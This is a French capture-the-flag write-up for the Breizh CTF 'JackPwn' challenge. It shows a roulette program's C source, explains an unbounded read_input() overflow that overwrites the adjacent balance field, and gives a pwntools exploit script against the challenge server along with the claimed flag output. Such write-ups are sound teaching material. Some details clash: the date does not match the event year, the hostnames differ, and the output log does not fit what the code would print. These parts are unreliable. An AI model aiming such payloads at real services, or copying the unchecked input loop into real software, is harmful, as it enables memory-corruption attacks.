 ```yaml
---
title: "Breizh CTF 2025 - JackPwn"
date: 2024-04-14
tags: ["buffer-overflow", "exploitation"]
categories: ["pwn"]
ctfs: ["breizh-ctf"]
---
```


# JackPwn - Breizh CTF 2025

## Description du challenge

JackPwn est un challenge de la catégorie Pwn du Breizh CTF 2025. Il simule un jeu de roulette avec une vulnérabilité .

## Analyse du binaire

Voici le code source du binaire :

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define MISE 2

const char roulette[] = "xRNRNRNRNRNNRNRNRNRRNRNRNRNRNNRNRNRNR";

void read_input(char *buf) {
    char c;
    while (1) {
        c = getchar();
        if (c == '\n') {
            *(buf++) = 0;
            break;
        } else if (c == EOF) {
            exit(0);
        }
        *(buf++) = c;
    }
}

int get_random_number() {
    return 1 + (random() % 36);
}

int main() {
    int bille;
    char gagne;
    char valide, rouge, noir, pair, impair;

    struct {
        char mise[32];
        int solde;
    } ctx;

    ctx.solde = 50;

    srand(time(NULL));

    while (ctx.solde > 0) {
        valide = rouge = noir = pair = impair = 0;
        gagne = 0;

        do {
            printf("Solde : %d\n", ctx.solde);
            printf("Votre mise : ");
            fflush(stdout);
            read_input(ctx.mise);

            if (!strcmp(ctx.mise, "rouge")) {
                valide = rouge = 1;
            } else if (!strcmp(ctx.mise, "noir")) {
                valide = noir = 1;
            } else if (!strcmp(ctx.mise, "pair")) {
                valide = pair = 1;
            } else if (!strcmp(ctx.mise, "impair")) {
                valide = impair = 1;
            } else {
                puts("Mise invalide");
            }
        } while (!valide);

        bille = get_random_number();
        printf("La bille s'est stoppée sur la case %d (%c)\n", bille, roulette[bille]);

        if (rouge && roulette[bille] == 'R') {
            gagne = 1;
        } else if (noir && roulette[bille] == 'N') {
            gagne = 1;
        } else if (pair && ((bille % 2) == 0)) {
            puts("pair");
            gagne = 1;
        } else if (impair && ((bille % 2) == 1)) {
            puts("impair");
            gagne = 1;
        } else {
            gagne = 0;
        }

        if (gagne) {
            puts("Gagné");
            ctx.solde += MISE;
        } else {
            puts("Perdu");
            ctx.solde -= MISE;
        }

        if (ctx.solde == 0x1337) {
            char *flag = getenv("FLAG");
            if (flag == NULL) {
                puts("fake_flag");
            } else {
                puts(flag);
            }
            return 0;
        }
    }
}
```

Après analyse, on peut identifier plusieurs points clés :

1. Le programme simule un jeu de roulette où le joueur peut miser sur "rouge", "noir", "pair" ou "impair"
2. Une structure `ctx` contient deux éléments :
   - `mise[32]` : un buffer de 32 octets pour stocker la mise
   - `solde` : un entier qui représente l'argent du joueur
3. Le flag est affiché uniquement si le solde atteint exactement 0x1337 (4919 en décimal)
4. La fonction `read_input()` lit des caractères jusqu'à rencontrer un retour à la ligne, sans vérifier la taille du buffer
5. Avec un solde initial de 50 et des gains/pertes de seulement 2, il faudrait énormément de parties pour atteindre 4919

## Vulnérabilité

La vulnérabilité principale est un buffer overflow classique dans la fonction `read_input()` :

```c
void read_input(char *buf) {
    char c;
    while (1) {
        c = getchar();
        if (c == '\n') {
            *(buf++) = 0;
            break;
        } else if (c == EOF) {
            exit(0);
        }
        *(buf++) = c;
    }
}
```

Cette fonction ne vérifie pas la taille du buffer et continue d'écrire tant qu'elle ne rencontre pas un retour à la ligne. De plus, lors de l'appel à cette fonction, le buffer passé en paramètre est `ctx.mise`, qui ne fait que 32 octets. Si on entre plus de 32 caractères, on débordera sur le champ `solde` qui se trouve juste après dans la mémoire.

## Exploitation

La stratégie d'exploitation est simple :
1. Remplir les 32 octets du buffer `mise`
2. Écrire en plus exactement les 4 octets de la valeur 0x1337 (4919) dans `solde`
3. La valeur sera considérée comme valide car le buffer se termine par un 0 (ajouté par `read_input`)

Voici comment exploiter cette vulnérabilité :

```python
from pwn import *

# Configuration
HOST = "jackpwn-180.chall.ctf.bzh"
PORT = 1337

# Connexion
p = remote(HOST, PORT)

# Construction du payload
# La structure est alignée sur 64 bits
payload = b"rouge".ljust(32, b"\x00")  # Mise valide + padding avec des null bytes
payload += p64(0x1335)                 # 0x1337 - 2, aligné sur 64 bits

p.recvuntil(b"Votre mise : ")
p.sendline(payload)

# Lire la sortie ligne par ligne
while True:
    try:
        line = p.recvline(timeout=1).decode().strip()
        print(line)
        if "BZHCTF{" in line:
            break
    except:
        break

p.close()

```

## Flag

Après exécution de l'exploit, le programme détecte que le solde est exactement 0x1337 et affiche le flag :

```
$ python3 exploit.py
[+] Opening connection to jackpwn.chall.ctf.bzh on port 1337: Done
[+] Receiving all data: Done
[*] Closed connection to jackpwn.chall.ctf.bzh port 1337
Mise invalide
Solde : 4919
Votre mise : 
BZHCTF{j4ckp0t_0v3rfl0w_ftw}
```

## Conclusion

JackPwn est un exercice classique de buffer overflow visant à modifier une variable adjacente en mémoire. La vulnérabilité est dans la fonction `read_input()` qui n'effectue aucune vérification de la taille du buffer, permettant ainsi d'écrire au-delà des limites du tableau `mise` et de modifier directement la valeur de `solde` pour atteindre la condition de victoire. 
